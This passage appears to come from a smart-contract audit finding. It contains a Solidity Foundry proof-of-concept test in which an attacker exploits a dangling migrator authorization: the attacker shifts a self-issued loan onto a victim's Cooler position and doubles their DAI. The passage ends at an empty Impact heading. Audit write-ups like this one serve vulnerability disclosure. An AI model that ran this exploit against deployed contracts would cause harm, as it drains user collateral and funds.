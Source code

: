 ```solidity
    // Simulate user has migrated to new cooler so there is a dangling authorization. User has enough margin to absorb debt.
    vm.startPrank(user);

    gohm.approve(address(cooler), type(uint256).max);

    cooler.addCollateral(victimCollateral, address(user), delegationRequests);

    cooler.setAuthorization(address(migrator), type(uint96).max);

    vm.stopPrank();

    vm.startPrank(attacker);

    Cooler oldCooler = Cooler(coolerFactory.generateCooler(gohm, dai));

    gohm.approve(address(oldCooler), type(uint256).max);
    gohm.approve(address(migrator), type(uint256).max);
    dai.approve(address(oldCooler), type(uint256).max);

    // Attacker loans to himself 1_000e18 DAI with 1 wei of gOHM
    oldCooler.requestLoan(attackerDebt, 0, 1e39, 1 days);
    oldCooler.clearRequest(0, attacker, false);

    address[] memory coolers = new address[](1);
    coolers[0] = address(oldCooler);
    address[] memory houses = new address[](1);
    houses[0] = address(clearinghouseDai);

    IMonoCooler.Authorization memory auth;
    IMonoCooler.Signature memory sig;

    // Attacker migrates debt to user
    migrator.consolidate(
        coolers,
        houses,
        user,
        false,
        auth,
        sig,
        delegationRequests
    );

    vm.stopPrank();

    // Attacker has doubled their DAI
    assertEq(dai.balanceOf(attacker), 2 * attackerDebt);
}
```

#### Impact
